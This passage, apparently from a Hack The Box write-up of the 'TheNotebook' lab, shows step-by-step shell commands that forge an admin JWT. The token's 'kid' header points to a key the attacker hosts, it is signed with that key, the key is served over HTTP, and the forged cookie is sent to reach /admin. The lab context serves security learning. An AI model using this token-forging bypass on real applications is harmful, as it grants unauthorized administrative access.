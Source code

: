 Then following [this other Akamai article](https://learn.akamai.com/en-us/webhelp/iot/jwt-access-control/GUID-CB17F8FF-3367-4D4B-B3FE-FDBA53A5EA02.html) an arbitrary JWT containing admin privileges was created :
```bash
┌──(kali㉿kali)-[~/…/HTB/box/TheNotebook/exploit]
└─$ echo -n '{"typ":"JWT","alg":"RS256","kid":"http://10.10.14.24/privKey.key"}' | base64 | sed s/\+/-/ | sed -E s/=+$// > token.header

┌──(kali㉿kali)-[~/…/HTB/box/TheNotebook/exploit]
└─$ echo -n '{"username":"maoutis","email":"maoutis@hackthebox.htb","admin_cap":1}' | base64 | sed s/\+/-/ | sed -E s/=+$// > token.payload

┌──(kali㉿kali)-[~/…/HTB/box/TheNotebook/exploit]
└─$ cat token.*
eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiIsImtpZCI6Imh0dHA6Ly8xMC4xMC4xNC4yNC9wcml2
S2V5LmtleSJ9
eyJ1c2VybmFtZSI6Im1hb3V0aXMiLCJlbWFpbCI6Im1hb3V0aXNAaGFja3RoZWJveC5odGIiLCJh
ZG1pbl9jYXAiOjF9

┌──(kali㉿kali)-[~/…/HTB/box/TheNotebook/exploit]
└─$ echo -n "eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiIsImtpZCI6Imh0dHA6Ly8xMC4xMC4xNC4yNC9wcml2S2V5LmtleSJ9.eyJ1c2VybmFtZSI6Im1hb3V0aXMiLCJlbWFpbCI6Im1hb3V0aXNAaGFja3RoZWJveC5odGIiLCJhZG1pbl9jYXAiOjF9" | openssl dgst -sha256 -binary -sign  keys/jwtRSA256-private.pem | openssl enc -base64 | tr -d '\n=' | tr -- '+/' '-_' > token.signature

┌──(kali㉿kali)-[~/…/HTB/box/TheNotebook/exploit]
└─$ cat token.signature
dSB9WWMQFh66xXCbF0HpTMkSNo4ojWleQIFktxL1cczrLy9rhwvuKe42Zb4WxBsBbHB2CtH-YWZYXAOCRQawVGVgTDg-X9NHPk0yOsPUw4XOW1w1fH2Hs_xFE66OpYuboNX0wW-twqN_6jN18IwiJ3WYmES0ISEbqOEfeE_kJ0ujX2Z4d76Y2WPD-SHOi60Gj1QA-PrfTFSaepeMhze0Zg4TSfUDrV78S4DxQNJD5-i_P2MMARMM1qd7C6GJoDQyq4hw8l2fSYWgfHy7uBtjiG7RdDhhPGPHmvlfBzy7hFEkmLGcrupEV3IWpwmeK2nrST_O7XYXyeaMaTV_JUClrA

┌──(kali㉿kali)-[~/…/HTB/box/TheNotebook/exploit]
└─$ echo -n "eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiIsImtpZCI6Imh0dHA6Ly8xMC4xMC4xNC4yNC9wcml2S2V5LmtleSJ9.eyJ1c2VybmFtZSI6Im1hb3V0aXMiLCJlbWFpbCI6Im1hb3V0aXNAaGFja3RoZWJveC5odGIiLCJhZG1pbl9jYXAiOjF9.dSB9WWMQFh66xXCbF0HpTMkSNo4ojWleQIFktxL1cczrLy9rhwvuKe42Zb4WxBsBbHB2CtH-YWZYXAOCRQawVGVgTDg-X9NHPk0yOsPUw4XOW1w1fH2Hs_xFE66OpYuboNX0wW-twqN_6jN18IwiJ3WYmES0ISEbqOEfeE_kJ0ujX2Z4d76Y2WPD-SHOi60Gj1QA-PrfTFSaepeMhze0Zg4TSfUDrV78S4DxQNJD5-i_P2MMARMM1qd7C6GJoDQyq4hw8l2fSYWgfHy7uBtjiG7RdDhhPGPHmvlfBzy7hFEkmLGcrupEV3IWpwmeK2nrST_O7XYXyeaMaTV_JUClrA" > token.jwt
```

The RSA private key was renamed to the value specified within the token and then it was hosted:
```bash
┌──(kali㉿kali)-[~/…/box/TheNotebook/exploit/keys]
└─$ cp jwtRSA256-private.pem privKey.key

┌──(kali㉿kali)-[~/…/box/TheNotebook/exploit/keys]
└─$ sudo python3 -m http.server 80
```

The **cookie containing the current JWT was replaced** with the self signed one and then the `/admin` page was visited:
```http
GET /admin HTTP/1.1
Host: 10.10.10.230
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
```
